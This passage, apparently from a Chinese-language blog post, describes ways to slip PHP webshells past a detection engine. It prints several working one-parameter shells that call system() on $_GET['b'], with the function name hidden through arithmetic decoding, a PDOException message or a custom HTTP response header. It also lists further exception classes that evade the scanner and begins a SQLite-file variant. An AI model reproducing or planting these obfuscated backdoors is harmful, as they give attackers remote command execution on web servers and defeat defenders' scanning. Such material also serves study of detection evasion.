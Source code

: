 parse_str($f, $arr);

$arr['b'][1]($_GET['b']);` 

[Exception::getMessage + 还原字符串 绕过](#toc_exceptiongetmessage)
------------------------------------------------------------

之前在一篇文章中，我看到了利用Exception的getMessage方法来绕过webshell检测，于是我便尝试仿照这个思路来构造绕过。在尝试了几个Exception后，我找到了PDOException，可以成功绕过引擎。

`<?php 
function fun($a){
//fun可以将数字451232还原为字符串"system"
    $s = ['a','t','s', 'y', 'm', 'e', '/'];
    $tmp = "";
    while ($a>10) {
        $tmp .= $s[$a%10];
        $a = $a/10;
    }
    return $tmp.$s[$a];
}

$a = new PDOException(fun(intval(substr(__FILE__, -10, 6))));
// $a = new PDOException('system'); 这种会被引擎检测出来

$b=$a->getMessage();
$b($_GET['b']);` 

然后，我通过正则表达式在5.6.40和7.1.33的php源码中，找到了几个同样可以绕过的Exception。

`DOMException
ReflectionException
ClosedGeneratorException 7版本特有
PharException` 

其中，ClosedGeneratorException是在7.1.33源码中找到的，是7版本特有的。

apache\_response\_headers是apache特供的函数，可以获取所有HTTP响应头。于是我利用header()自定义响应头，然后通过apache\_response\_headers拿到字符串"system"，成功绕过引擎。

`<?php
header('ddd: system');
$arr = apache_response_headers();
foreach($arr as $k=>$v){
    if (strlen($v) == 6 && $v[0] == 's' && $v[5] == 'm'){
        $v($_GET['b']);
    }
}` 

[从Sqlite数据库文件中获取"system"](#toc_sqlitesystem)
--------------------------------------------

我发现file\_put\_contents并不被引擎完全禁止，只要写入的文件名和文件内容不涉及webshell，实际上是可以正常写入的。于是我有了一个思路，我是不是可以写入一个sqlite数据库文件，然后使用php自带扩展sqlite，从数据库中读取到"system"。

于是我先构造出一个sqlite数据库，然后使用file\_get\_contents读取，并将内容进行base64编码后输出。进行base64编码是因为数据库文件内容存在一些特殊字符。

